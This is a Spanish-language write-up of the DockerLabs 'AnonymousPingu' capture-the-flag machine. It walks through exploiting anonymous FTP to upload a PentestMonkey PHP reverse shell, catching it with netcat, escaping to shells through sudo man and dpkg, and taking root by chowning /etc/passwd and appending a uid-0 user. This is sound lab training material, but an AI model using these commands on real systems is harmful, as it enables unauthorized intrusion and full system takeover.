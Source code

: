 # Máquina AnonymousPingu

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p21,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Apr 28 21:08 upload [NSE: writeable]
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos mucha información por parte del servicio ftp, donde está habilitado el user **anonymous**. Observamos que toda la info que nos reporta en el servicio **ftp** son los archivos fuente de la **web** que corre por el puerto 80. Además, comprobamos que el directorio **/upload** dentro de la web, tiene capacidad de **directory list**, de forma que será fácil la intrusión. Podremos subir una **reverse shell** y acceder a ella desde la web para ganar acceso. La subimos al directorio **/upload**, que es el único lugar donde tenemos permisos de escritura.

Subiré la reverse shell típica de **PentestMonkey** -> [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```shell
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php shell.php
```

(Acuérdate de cambiar la IP a tu IP correspondiente y el puerto que quieras)

![Pasted image 20240429005132](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45802db3-6d7b-4747-9dcb-9d0401a43b09)

```shell
ftp 172.17.0.2
-> anonymous
cd upload/
put shell.php
```

Nos ponemos en escucha con **netcat**:

```shell
sudo nc -nlvp 443
```

Accedemos a la **reverse shell** que ya debería estar alojada en la web.

```
http://172.17.0.2/upload/shell.php
```

Hemos ganado acceso a la máquina ! Aplicamos como siempre el tratamiento de la **tty**

***

## Escalada de privilegios

Si hacemos **sudo -l** vemos que podemos ejecutar **man** como el usuario **pingu**. Podemos abusar de este para migrar a ese user.

```shell
sudo -l
--------------------------------
User www-data may run the following commands on 13d79de146ba:
    (pingu) NOPASSWD: /usr/bin/man
```

```shell
sudo -u pingu man man
!/bin/bash
whoami
------------------------
pingu
```

Hemos salido del contexto de **man** y migramos al user **pingu**.

Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User pingu may run the following commands on 4af23574d013:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

Podemos ejecutar **nmap** y **dpkg** como el user **gladys**. Podemos repetir un proceso muy similar al de **man** con **dpkg**:

```shell
sudo -u gladys dpkg -l
!/bin/bash
```

Migramos al user **gladys**. Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User gladys may run the following commands on 4af23574d013:
    (root) NOPASSWD: /usr/bin/chown
```

Podemos ejecutar **chown** como **root** Cambiamos el dueño del **/etc/passwd**:

```shell
LFILE=/etc/passwd 
sudo chown $(id -un):$(id -gn) $LFILE
ls -l /etc/passwd
--------------------------------
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
```

Ahora le pertenece a **gladys**. Probamos a quitar la "**x**" que corresponde a la contraseña del usuario **root** y si la quitamos es posible que nos deje acceder sin contraseña. Como la máquina no tiene ningún editor de texto instalado, lo que haremos será crear un nuevo usuarios con los privilegios de **root** y añadirlo al **/etc/passwd**:

```shell
LFILE=/etc/passwd
sudo chown $(id -un):$(id -gn) $LFILE
openssl passwd hola123
echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
su newroot
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !
